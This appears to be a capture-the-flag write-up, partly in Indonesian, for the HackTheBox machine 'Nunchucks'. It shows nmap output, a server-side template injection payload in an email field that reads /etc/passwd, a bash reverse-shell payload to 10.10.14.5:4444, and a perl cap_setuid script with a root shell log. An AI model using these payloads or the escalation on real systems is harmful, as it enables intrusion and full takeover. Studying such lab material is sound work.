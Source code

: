 
| PORT | STATE | SERVICE | VERSION                                             |
|------|-------|---------|-----------------------------------------------------|
| 22/tcp | open  | ssh     | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | nginx 1.18.0 (Ubuntu)                               |
| 443/tcp| open  | ssl/http| nginx 1.18.0 (Ubuntu)                               |

### Detail Layanan:

#### Port 22/tcp (ssh)
- **State**: Open
- **Service**: ssh
- **Version**: OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- **SSH Hostkey**:
  - RSA: 3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21
  - ECDSA: 256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71
  - ED25519: 256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3

#### Port 80/tcp (http)
- **State**: Open
- **Service**: http
- **Version**: nginx 1.18.0 (Ubuntu)
- **HTTP Title**: Did not follow redirect to https://nunchucks.htb/
- **HTTP Server Header**: nginx/1.18.0 (Ubuntu)

#### Port 443/tcp (ssl/http)
- **State**: Open
- **Service**: ssl/http
- **Version**: nginx 1.18.0 (Ubuntu)
- **SSL Certificate**:
  - **Subject**: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
  - **Subject Alternative Name**: DNS:localhost, DNS:nunchucks.htb
  - **Validity**:
    - Not valid before: 2021-08-30T15:42:24
    - Not valid after: 2031-08-28T15:42:24
- **HTTP Title**: Nunchucks - Landing Page
- **TLS Information**:
  - TLS randomness does not represent time
  - ALPN protocols: http/1.1
  - Next protocol: http/1.1

### Informasi Tambahan:
- **Service Info**: OS: Linux; CPE: cpe:/o:linux:linux_kernel


# SubDomain 
| Path       | Status | Size | Words | Lines | Duration | 
|------------|--------|------|-------|-------|----------| 
| /store     | 200    | 4029 | 1053  | 102   | 897ms    |


# Exploit

terdapat form email, yang ada di subdomain store. saya kira pertama ini adalah kerentanan XSS tapi tidak, ternyata ssti

![[Screenshot at 2024-06-23 11-21-41.png]]


payload
```json
{
  "email": "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}@gmail.com"
}
```

![[Screenshot at 2024-06-23 11-39-52.png]]


**payload RCE:**

```json
{
  "email": "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.14.5/4444 0>&1\\\"')\")()}}@gmail.com"
}
```


# ROOT

```bash
/usr/bin/perl = cap_setuid+ep
```

```perl
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash";
```

```bash
(remote) david@nunchucks:/tmp$ nano root.pl
(remote) david@nunchucks:/tmp$ chmod +x root.pl 
(remote) david@nunchucks:/tmp$ ./root.pl 
root@nunchucks:/tmp# id 
uid=0(root) gid=1000(david) groups=1000(david)
root@nunchucks:/tmp# cat /root/root.txt 
7941d2a194498c299760abcc403ff558
```


